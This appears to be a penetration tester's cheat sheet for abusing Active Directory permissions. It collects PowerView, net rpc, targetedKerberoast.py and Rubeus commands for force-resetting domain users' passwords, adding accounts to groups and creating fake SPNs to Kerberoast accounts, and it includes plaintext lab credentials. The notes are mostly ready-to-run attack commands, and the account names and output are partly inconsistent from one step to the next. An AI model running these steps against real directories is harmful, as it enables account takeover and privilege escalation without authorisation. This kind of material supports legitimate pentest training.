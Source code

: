 #### Password Reset (User-Force-Change-Password)
Linux
```
```

Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```
Create `SecureString`Object for user to abuse
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
```
Change users password
```powershell
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

OTHER
Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Pwned123!' -AsPlainText -Force ) -Verbose

```
#### Adding User to Group (GenericWrite)
Linux
```powershell
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Create `PSCredential` Object
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d123!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
Add to group
```powershell
Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity "MSSP Connect" -Members "KSALINAS" -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
Verify
```powershell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select MemberName
```
Cleanup
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

#### Targeted Kerberoast
Let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat

Linux
```bash
python3 ~/opt/AD/targetedKerberoast/targetedKerberoast.py -v -d "fluffy.htb" -u p.agila -p 'prometheusx-303' -U Administrator
```

---

Windows
```powershell
$SecPassword = ConvertTo-SecureString '$$Bond@007$$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('trilocor\JFLEMMING', $SecPassword)
```

Create fake SPN
```powershell
Set-DomainObject -Credential $Cred -Identity KSALINAS -SET @{serviceprincipalname='notahacker/Pwned'} -Verbose
```
Kerberoast w/ Rubeus
```powershell
.\Rubeus.exe kerberoast /user:KSALINAS /nowrap
```
Cleanup
```powershell
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose
```